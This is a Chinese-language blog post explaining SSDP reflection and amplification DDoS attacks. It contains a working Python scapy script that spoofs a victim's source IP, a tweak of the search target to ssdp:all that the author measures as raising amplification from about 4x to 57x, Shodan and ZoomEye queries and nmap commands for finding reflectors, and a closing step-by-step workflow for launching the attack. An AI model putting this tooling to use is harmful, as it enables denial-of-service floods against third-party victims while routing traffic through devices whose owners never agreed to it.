



# DDoS反射放大之SSDP攻击

# 1. 前言


之前一直搞Web安全，大家都知道使用BurpSuite抓包，一个请求对应一个响应，这是http协议定死了的。所以到了网络层，思维不能存在定势，一个请求包可能对应多个响应包，这也是TCP/IP协议允许的，反射放大就是基于这个原理


OSI七层模型大家学生时代上网络课的时候都学过，但纸上谈兵还是太肤浅，不用WireShark抓个包看看，很难深入理解

​              


安全很多东西可以套用，无论在四层还是在七层，攻击测试无非是抓包，拦截，改包，重放······反射放大最常修改的字段是网络层源IP字段。套路是固定的，关键还是看思路，每一种新型漏洞或者每一种新型DDoS攻击都是人为创造出来的


# 2. 概述


这里不太喜欢谈论比较没有技术含量的纯的DDoS攻击，靠僵尸网络堆起来的流量，有点“以大欺小”群殴的感觉，我们来讲点通过“以小博大”，“四两拨千斤”的姿态进行的DDoS攻击，需要对特定的网络协议有个清晰的认识，并能够找到破绽为我所用


## 2.1. 反射


反射型DDoS，能够让人马上想起“反射型XSS”这种Web漏洞类型，攻击者构造的XSS payload通过服务器反射给受害者，我们也需要某种介质将自己发送的网络数据包反射给受害者，而这种介质可以是互联网上任何服务器任何端口的任何协议，只要这种协议有请求有响应


正常的请求发送过去后，响应会直接沿原路返回，如图所示

​                                       


但是我们上面说了修改正常的请求的源IP为受害者的IP，响应就会发送给受害者，如图所示

​                                   


当然我们不会只发送给一个中间介质，否则形成不了DDoS，于是乎又有了下图

​                                       


## 2.2. 放大


就算响应包比请求包字节数大一点，上面的反射其实并没有比纯的DDoS（直接发包）省流量，DDoS的目的就是流量最大化，达到耗尽资源和带宽的目的，因为攻击者这边的资源和带宽是一定的，所以很少有人直接反射，介质必须还要有个属性，就是“放大”，几十倍几百倍的放大已经不得了了，最新的memcache放大似乎已经到了万倍，一万倍是个什么概念？拿某些双向流量收费限制流量的vps打比方吧，我发送1M流量到某个地方，将收到10G流量，瞬间肉疼，如图所示

​                                    


下面是反射+放大的效果图，A以最小的带宽达到发送到C的流量最大化

​                               


注意，这种攻击方式是在没有控制B1,B2,B3···的情况下进行的，所以很隐蔽，难以逆向追踪


## 2.3. SSDP


怎样才能称为合适的介质呢，我们需要一个可以IP欺骗的、易于反射放大的协议，这种协议存在于很多正常的外网开放的服务器端口中。“端口就像一盒巧克力,你永远不知道你会得到什么”，阿甘说的这句话也可以套用在这里。本章要重点描述的SSDP就是众多可利用的协议之一


SSDP全称Simple Sever Discovery Protocol，它自己都说它简单了，其实真的很简单。为啥我先说它呢，还是因为上面说的Web情结，它的本质是一个在UDP上面的HTTP协议，下面是维基百科里面的图

​                               


是不是脑洞大开，以前一直想当然地以为HTTP协议一定是应用在TCP协议上面的，所以以后如果碰到这样的笔试题一定要怼回去


没有必要详细讲解这个协议，毕竟我们不是来寻找协议缺陷的，我们只要知道与DDoS相关的知识即可，大概有下面几点


1. SSDP通常应用在通用即插即用 (UPnP)设备上，用来发现设备
2. 一般使用多播地址239.255.255.250和UDP端口号1900
3. 本应该应用在内网的端口被无意中开放到外网
4. SSDP的缺陷是不检查查询方是否与设备在同一个网络中


# 3. 测试


## 3.1. Nmap


前人栽树，后人乘凉，找了一下Nmap里面已经有了检测脚本，如下的命令直接使用即可，也可以用WireShark抓一下Nmap的请求数据包


```
nmap xxx.xxx.xxx.xxx -p 1900 -sU --script=upnp-info
```

下面是Nmap运行页面，表面该IP返回了SSDP响应包，服务正常，可以被利用，UDP本就是无连接的协议，有时候需要多试几次


下面是用WireShark抓取上面请求响应的接口


我们来算一下它放大了多少倍


(289+289)/139=4倍


再来看一下应用层的HTTP协议是怎样的，如果不告诉你底层是UDP协议，这里看上去跟普通的HTTP请求没什么两样，非常熟悉的200响应状态码

​                            

注意一下请求包中的ST:upnp:rootdevice这一行，下面我们会将它跟攻击用的请求包做对比


## 3.2. scapy


python的scapy可以很轻松构造并且发送自己构造的四层数据包，用来测试最好不过，直接上代码


```
from scapy.all import *
import random

def send_udp(srcip,dstip):
    x =random.randint(0,65535)
    sendmsg = 'M-SEARCH * HTTP/1.1\r\nHost:239.255.255.250:1900\r\nST:upnp:rootdevice\r\nMan:\"ssdp:discover\"\r\nMX:3\r\n\r\n'
    i =IP()
    i.dst=dstip
    i.src=srcip
    u=UDP()
    u.dport=1900
    u.sport=x
    send(i/u/sendmsg)
    print 'success'

if __name__ == '__main__':
    send_udp('1.1.1.1','2.2.2.2')
```

可以在真实环境里测试下，我们需要两台外网机器，一台发送数据包，一台接收数据包，当然还需要一台反射放大服务器，这个可以在一些公网设备搜索引擎上面进行收集，搞安全的知道国外有shodan，国内有zoomeye，下面我给出了二者的搜索语法


```
shodan：
upnp port:"1900"

zoomeye：
"ST:upnp:rootdevice"
```

下面是shodan的搜索页面，中国是重灾区




当然很多搜索结果有延时，有可能已经被修复了，需要用上面的nmap验证一下，很快我们就找到一个可以利用的外网IP，直接开始实验，这里用到了linux上的一个抓包神器tcpdump


机器A：123.*.*.228


反射：93.*.*.227


机器B：118.*.*.34


在机器A使用python脚本发送数据包，将源IP伪造成机器B


```
send_udp('118.*.*.34','93.*.*.227')
```


在机器B上进行监控，成功收到数据包


# 4. 攻击


随着SSDP攻击的泛滥，我厂也开始遭受大量的SSDP这种类型的UDP Flood攻击，幸好我们有智能的DDoS监测和清洗系统，后端业务基本无感知。下面是其中一次攻击流量曲线，达到6Gbps左右的流量


下面是攻击时间段的抓包结果


通过上面的分析，其实我们可以判断这里的源IP都是真实的IP，或者说存在真实SSDP服务的端口，而且是新鲜出炉，为我们提供了大量的测试样例，通过收集这些源IP，我们完全可以模拟一次DDoS攻击


对这些源IP进行测试，并对比攻击数据包，发现我们发送的数据包获取的响应包并没有攻击来的多，通过对SSDP协议的深入研究，问题出现在ST:upnp:rootdevice这一行上，我们这里来大致解析一下请求的数据包


```
Host：这里必须使用IANA（Internet Assigned Numbers Authority）为SSDP预留的组播地址：239.255.255.250:1900
Man：必须是"ssdp:discover"，注意这里的引号不能省略
Mx：1到5之间的一个值，表示最大的等待响应的秒数
ST：Search Target的缩写，表示搜索的节点类型，ST是要搜索的目标，如果搜索所有的设备和服务，则为ssdp:all，如果是搜索根设备，则为upnp:rootdevice
```

很明显让所有服务和设备应答，和只让根设备应答，发出来的数据包是完全不同的数量级，立马修改python发包脚本

```
def send_udp(srcip,dstip):
    x =random.randint(0,65535)
    sendmsg = 'M-SEARCH * HTTP/1.1\r\nHost:239.255.255.250:1900\r\nST:ssdp:all\r\nMan:\"ssdp:discover\"\r\nMX:3\r\n\r\n'
    i =IP()
    i.dst=dstip
    i.src=srcip
    u=UDP()
    u.dport=1900
    u.sport=x
    send(i/u/sendmsg)
    print 'success'
```

为了与上面的测试部分的倍数形成对比，使用相同的SSDP服务器作为反射源，成功获取大量响应包


这是七层报文

​                      


使用WireShark的统计功能来计算倍数


放大倍数(7682-132)/132=57倍，一个点的修改，提高了十几倍的攻击性能


# 5. 总结


攻击的整个流程现在就明朗了


- 首先收集反射源，可以全网段扫描开放1900端口的外网IP，也可以爬虫shodan或者zoomeye结果
- 然后扔到nmap里面进行验证，验证命令nmap -iL ip.txt -sU --script=upnp-info -p 1900 -oX result.xml
- 根据上面发包脚本，写一个好的多线程发包器，遍历验证过可以返回数据包的IP列表
- 输入要攻击的IP，一键DDoS
- 等待警察叔叔的到来······